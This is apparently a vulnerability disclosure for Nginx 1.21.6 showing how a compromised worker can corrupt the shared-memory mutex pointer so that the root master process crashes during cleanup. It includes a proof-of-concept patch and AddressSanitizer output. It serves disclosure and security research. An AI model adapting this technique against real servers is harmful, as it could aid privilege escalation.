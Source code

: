 # Nginx Worker-Master CIV

## Threat model

In Nginx, the master/worker split is partly justified by security: privileged
operations are performed in the master (running as `root`), which is not
exposed to the network.

We are thus looking for "worker escape" vulnerabilities: assuming the worker is
compromised, we want to find vulnerabilities that allow it to compromise the
master, to further escalate privileges.

## Worker-Escape CIV

We found a worker escape CIV via the shared memory mutex API.

Here is a description step by step of the vulnerability:

1. A compromised guest corrupts the mutex structure in the `ngx_slab_pool_t`,
   in shared memory. Specifically, it corrupts [the lock pointer](https://hg.nginx.org/nginx/file/tip/src/core/ngx_shmtx.h#l26).
   This requires a single byte write.
2. The guest wants to force the master to dereference this corrupted pointer,
   in order to do that it crashes itself to trigger the [mutex cleanup mechanism](https://hg.nginx.org/nginx/file/default/src/os/unix/ngx_process.c#l602).
   NOTE: this could actually also happen naturally when the server shuts down.
3. As the guest dies, the master receives a SIGCHILD and executes
   `ngx_unlock_mutexes()`. In doing so it dereferences the corrupted `lock()`
   pointer and crashes. Dereference can be READ or WRITE.

Here is a proof of concept that demonstrates the vulnerability:

1. Compile Nginx with ASan, here we went for 1.21.6 but it should work on more
   recent releases.
2. Apply the following patch:
```
diff -ur nginx-1.21.6.old/src/os/unix/ngx_process_cycle.c nginx-1.21.6/src/os/unix/ngx_process_cycle.c
--- nginx-1.21.6.old/src/os/unix/ngx_process_cycle.c    2022-11-25 15:33:27.105006439 +0000
+++ nginx-1.21.6/src/os/unix/ngx_process_cycle.c        2022-11-25 15:46:45.110521658 +0000
@@ -709,6 +709,10 @@
 
     for ( ;; ) {
 
+       ngx_slab_pool_t  *sp = (ngx_slab_pool_t *) ((ngx_shm_zone_t *) ((ngx_list_part_t *) &cycle->shared_memory.part)->elts)[0].shm.addr;
+       sp->mutex.lock = NULL;
+       * (volatile int *) NULL = 0;
+
         if (ngx_exiting) {
             if (ngx_event_no_timers_left() == NGX_OK) {
                 ngx_log_error(NGX_LOG_NOTICE, cycle->log, 0, "exiting");
```
3. Run `./objs/nginx -g 'error_log stderr debug;'`
4. You should see the following crash appear:
```
=================================================================
==245==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000000 (pc 0x5606db9b699a bp 0x7ffd9d4b39f0 sp 0x7ffd9d4b39e0 T0)
==245==The signal is caused by a WRITE memory access.
==245==Hint: address points to the zero page.
    #0 0x5606db9b699a in ngx_shmtx_force_unlock src/core/ngx_shmtx.c:155
    #1 0x5606dba1dc74 in ngx_unlock_mutexes src/os/unix/ngx_process.c:602
    #2 0x5606dba1da1d in ngx_process_get_status src/os/unix/ngx_process.c:559
    #3 0x5606dba1cfc0 in ngx_signal_handler src/os/unix/ngx_process.c:463
    #4 0x7f01e717851f  (/lib/x86_64-linux-gnu/libc.so.6+0x4251f)
    #5 0x7f01e71787db in sigsuspend (/lib/x86_64-linux-gnu/libc.so.6+0x427db)
    #6 0x5606dba20281 in ngx_master_process_cycle src/os/unix/ngx_process_cycle.c:163
    #7 0x5606db97300e in main src/core/nginx.c:383
    #8 0x7f01e715fd8f  (/lib/x86_64-linux-gnu/libc.so.6+0x29d8f)
    #9 0x7f01e715fe3f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x29e3f)
    #10 0x5606db972024 in _start (/root/nginx-1.21.6/objs/nginx+0x73024)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV src/core/ngx_shmtx.c:155 in ngx_shmtx_force_unlock
==245==ABORTING
```

The patch is very simple, it (1) just corrupts the mutex from the worker's
context, (2) kills itself (`* (volatile int *) NULL = 0`) to (3) trigger the
mutex cleanup mechanism in the master, which triggers the crash. Again, the
worker killing itself is not necessary, the crash would also happen at server
shutdown.

The pointer does not have to be a NULL pointer, but we set it to NULL in this PoC.

## Impact

In theory, such exploits could be mounted on this vulnerability to compromise
the master from the guest.

In practice this particular CIV is limited in impact due to control constraints
in the mutex unlocking routine: bytes will only be overwritten if they match
the worker’s PID. Nevertheless, CIVs at such interfaces present a real risk:
less constrained bugs are realistic and may pose a real privilege escalation
threat.

## Fix

A link to the fix will be provided here when available.
